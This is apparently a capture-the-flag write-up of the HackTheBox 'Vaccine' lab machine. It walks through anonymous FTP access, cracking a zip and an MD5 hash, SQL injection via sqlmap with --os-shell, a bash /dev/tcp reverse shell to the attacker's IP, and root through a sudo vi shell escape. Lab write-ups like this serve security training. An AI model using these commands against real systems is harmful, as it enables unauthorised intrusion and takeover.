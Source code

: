 ```yaml
---
title: "HackTheBox - Vaccine"
author: Nasrallah
description: ""
date: 2022-07-11 00:00:00 +0000
categories : [HackTheBox, Machines]
tags: [hackthebox, linux, easy, crack, john, zip2john, sqli, sqlmap, vim, sudo]
img_path: /assets/img/hackthebox/machines/vaccine/
---
```


<div align="center"> <script src="https://www.hackthebox.eu/badge/565048"></script> </div>

---


## **Description**

Hello hackers, I hope you are doing well. We are doing [Vaccine](https://app.hackthebox.com/starting-point?tier=2) from [HackTheBox](https://www.hackthebox.com). The target is running a ftp server with anonymous login allowed, we login and find a backup.zip file protected with a password, we use zip2john and get a password. The zip file has a index.php file that contains a username and password that we use to login in a webpage. The page has a search section vulnerable to sql injection, we use `sqlmap` to get command execution on the target and a reverse shell after that. Inside the web server's directory, we find a file that has a password for a user, and the latter is able to run a program as root, so we leverage that to get escalate to root.

## Enumeration

### nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
Nmap scan report for 10.129.188.150 (10.129.188.150)
Host is up (1.5s latency).
Not shown: 997 closed tcp ports (reset) 
PORT   STATE SERVICE VERSION 
21/tcp open  ftp     vsftpd 3.0.3                                              
| ftp-syst:                 
|   STAT:                                                                      
| FTP server status:
|      Connected to ::ffff:10.10.16.10                                                                                                                        
|      Logged in as ftpuser                                                    
|      TYPE: ASCII
|      No session bandwidth limit                                              
|      Session timeout in seconds is 300
|      Control connection is plain text 
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rwxr-xr-x    1 0        0            2533 Apr 13  2021 backup.zip
22/tcp open  ssh     OpenSSH 8.0p1 Ubuntu 6ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c0:ee:58:07:75:34:b0:0b:91:65:b2:59:56:95:27:a4 (RSA)
|   256 ac:6e:81:18:89:22:d7:a7:41:7d:81:4f:1b:b8:b2:51 (ECDSA)
|_  256 42:5b:c3:21:df:ef:a2:0b:c9:5e:03:42:1d:69:d0:28 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: MegaCorp Login
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

We found 3 open ports.

 - Port 21 running a FTP server with anonymous login allowed.
 - Port 22 running SSH.
 - Port 80 running Apache web server.

### FTP

Let's login to the ftp server by providing the name `anonymous` and a blank password.

![](1.png)

Logged in successfully and found a file named **backup.zip**, then downloaded it using the command `get backup.zip`.

Let's unzip that file and see what's there.

![](2.png)

The file is protected with a password. We need to use `zip2john` to get a hash of that password and then crack the hash.

![](3.png)

We got the password, let's unzip the file now.

![](4.png)

We extracted two files, *index.php* and *style.css*. They must be the web server's files, let's print the content of index.php.

![](5.png)

Found the username **admin** and a MD5 hash. Let's use [Crackstation](https://crackstation.net/) to crack the hash.

![](6.png)

Great! Now let's move to the web server.

### Web

Let's navigate to the webpage.

![](7.png)

It's a login page for admin corp. Using the credentials we gathered, let's sign in.

![](8.png)

We're in an admin dashboard. Notice that there is a Search section. Everything we type in there get passed to a parameter in the url named `search`.

![](9.png)

## Foothold

Let's give the url to `sqlmap` along with the PHPSESSID cookie and see if the website is vulnerable to sql injection

`sqlmap -u 'http://10.129.188.150/dashboard.php?search=test' --cookie='PHPSESSID=utab5one0605nlfa81p85648p4'`

![](10.png)

The target seems to be vulnerable, let's try to get command execution by adding `--os-shell` option to the sqlmap command.

`sqlmap -u 'http://10.129.188.150/dashboard.php?search=test' --cookie='PHPSESSID=utab5one0605nlfa81p85648p4' --batch --os-shell`

![](11.png)

Nice, we can execute command on the target, but it's not really a shell, so let's get a reverse shell by executing the following command `bash -c "bash -i >& /dev/tcp/{your_IP}/1234 0>&1"`, But we need to setup a netcat listener first`nc -lvnp 1234`.

![](12.png)

Go to the listener and you should see the shell.

![](13.png)

## Privilege Escalation

After getting a shell, i used python pty trick to stabilize the shell.

```terminal
python3 -c 'import pty; pty.spawn("/bin/bash")'

export TERM=xterm

"ctrl + z"

stty raw -echo;fg
```

If we go to the website files located in `/var/www/html`, we find the `dashboard.php` file that has passwords for our current user.

![](14.png)

Using the password we found, let's login using ssh.

```terminal
$ ssh postgres@10.129.188.150                                                                                                   
postgres@10.129.188.150's password: 
Welcome to Ubuntu 19.10 (GNU/Linux 5.3.0-64-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Mon 01 Aug 2022 10:58:39 AM UTC

  System load:  0.0               Processes:             184
  Usage of /:   32.6% of 8.73GB   Users logged in:       0
  Memory usage: 19%               IP address for ens160: 10.129.188.150
  Swap usage:   0%


0 updates can be installed immediately.
0 of these updates are security updates.


The list of available updates is more than a week old.
To check for new updates run: sudo apt update


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

postgres@vaccine:~$ 
```

Let's check our current privileges with `sudo -l`.

![](15.png)


we can run the `/bin/vi` as root. Let's go to [GTFOBins](https://gtfobins.github.io/gtfobins/vi/#sudo).

![](16.png)

We open the file with the command `sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf` and then type these commands.

 - `:set shell=/bin/sh`
 - `:shell`

![](17.png)

Great! We got root.

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).
